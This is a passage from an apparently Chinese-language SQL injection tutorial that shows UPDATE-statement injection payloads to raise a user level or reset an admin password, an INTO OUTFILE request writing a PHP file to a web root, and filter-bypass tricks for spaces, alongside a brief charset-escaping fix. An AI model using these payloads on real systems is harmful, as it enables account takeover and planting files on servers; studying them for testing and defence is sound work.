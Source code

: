 ## 4、解决办法

    统一数据库、Web应用、操作系统所使用的字符集，避免解析产生差异，最好都设置为UTF-8。或对数据进行正确的转义，如mysql_real_escape_string+mysql_set_charset的使用。

## 5、SQL里面只有update怎么利用

    先理解这句 SQL

      <pre>`UPDATE user SET password='MD5($password)', homepage='$homepage' WHERE id='$id'
    `</pre>

    如果此 SQL 被修改成以下形式，就实现了注入

    a、修改 homepage 值为http://xxx.net', userlevel='3

    之后 SQL 语句变为

      <pre>`UPDATE user SET password='mypass', homepage='http://xxx.net', userlevel='3' WHERE id='$id'
    `</pre>

    userlevel 为用户级别

    b、修改 password 值为mypass)' WHERE username='admin'#

    之后 SQL 语句变为

      <pre>`UPDATE user SET password='MD5(mypass)' WHERE username='admin'#)', homepage='$homepage' WHERE id='$id'
    `</pre>

    c、修改 id 值为' OR username='admin'之后 SQL 语句变为

      <pre>`UPDATE user SET password='MD5($password)', homepage='$homepage' WHERE id='' OR username='admin'
    `</pre>

# 九、SQL如何写shell/单引被过滤怎么办

    写shell: root权限，GPC关闭，知道文件路径 outfile函数

    `http://127.0.0.1:81/sqli.php?id=1 into outfile 'C:\\wamp64\\www\\phpinfo.php' FIELDS TERMINATED BY '&lt;?php phpinfo(); ?&gt;'`

    `http://127.0.0.1:81/sqli.php?id=-1 union select 1,0x3c3f70687020706870696e666f28293b203f3e,3,4 into outfile 'C:\\wamp64\\www\\phpinfo.php'`

    宽字节注入

## 1、代替空格的方法

    %0a、%0b、%a0 等

        /**/ 等注释符

      &lt;&gt;

